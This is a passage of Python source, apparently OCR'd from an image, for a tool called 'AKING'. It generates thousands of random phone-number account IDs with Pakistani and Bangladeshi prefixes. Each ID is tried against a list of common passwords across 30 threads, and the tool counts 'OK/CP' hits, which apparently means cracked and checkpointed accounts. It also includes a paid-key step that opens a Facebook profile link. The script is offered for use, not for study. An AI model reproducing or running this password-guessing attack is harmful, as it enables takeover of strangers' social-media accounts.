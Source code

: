                         linex()
                        url_wa = "https://www.facebook.com/sk.sobuj.official"
                        name = input(" Enter your Name : ")
                        linex()
                        tks = ("Hi Aking Sir, I Need To Buy Your Paid AKING PRO Tools Version 1.9.0 Premium Please Accept My Key To Premium :)\n\n Name :- "+name+"\n Key :- "+fkeyx)
                        subprocess.check_output(["am", "start", url_wa+(tks)]);time.sleep(2)
                        print(' Run :  python AKING.py')
                        exit()
        except ValueError:
                exit()
        except requests.exceptions.ConnectionError:
                print('\n No internet connection ...')
                exit()
def pak():
                user=[]
                clear()
                print('\033[1;31m Code example: 0306,0315,0335,0345')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan1234','khan12','khan786','khan123','khan123456','khankhan123','786786']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python AKING.py')
def bd():
                user=[]
                clear()
                print('\033[1;31m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()